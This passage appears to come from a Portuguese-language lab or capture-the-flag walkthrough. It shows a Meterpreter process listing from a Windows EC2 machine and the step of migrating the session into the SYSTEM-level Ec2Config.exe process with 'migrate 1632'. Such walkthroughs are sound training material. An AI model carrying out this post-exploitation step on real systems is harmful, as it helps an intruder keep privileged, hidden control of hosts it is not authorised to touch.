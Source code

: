 ```bash
 728   612   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 840   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 904   712   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 952   712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1020  664   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 1088  712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1196  712   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 1340  712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1424  712   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1496  712   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
 1632  712   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1956  712   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 1984  712   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 2080  840   WmiPrvSE.exe
 2136  712   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM
 2448  712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 2480  712   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE
 2636  712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 2680  712   vds.exe               x64   0        NT AUTHORITY\SYSTEM
 2808  712   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM

```

### **<a id="15">7. Migrate to this process using the 'migrate PROCESS_ID' command.</a>**

Vamos migrar para o processo `Ec2Config.exe` com o comando `migrate 1632`.

```bash
meterpreter > migrate 1632
[*] Migrating from 1984 to 1632...
[*] Migration completed successfully.
```
